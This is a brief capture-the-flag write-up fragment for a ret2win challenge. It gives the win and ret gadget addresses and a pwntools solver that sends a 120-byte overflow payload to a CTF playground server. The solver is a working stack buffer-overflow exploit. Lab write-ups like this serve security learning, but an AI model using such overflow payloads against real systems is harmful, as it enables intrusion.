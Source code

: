 ![](ret2winwinretaddr.png)
win address on `0x401216` and ret address on `0x000000000040129d`, and ye this is the solver
#### Solver
```py
from pwn import *

host = "playground.tcp1p.team"
port = 19000

win_addr = 0x401216
ret_addr = 0x000000000040129d  

offset = 120

payload = b"A" * offset  
payload += p64(ret_addr) 
payload += p64(win_addr) 

io = remote(host, port)
io.sendline(payload)
io.interactive()
```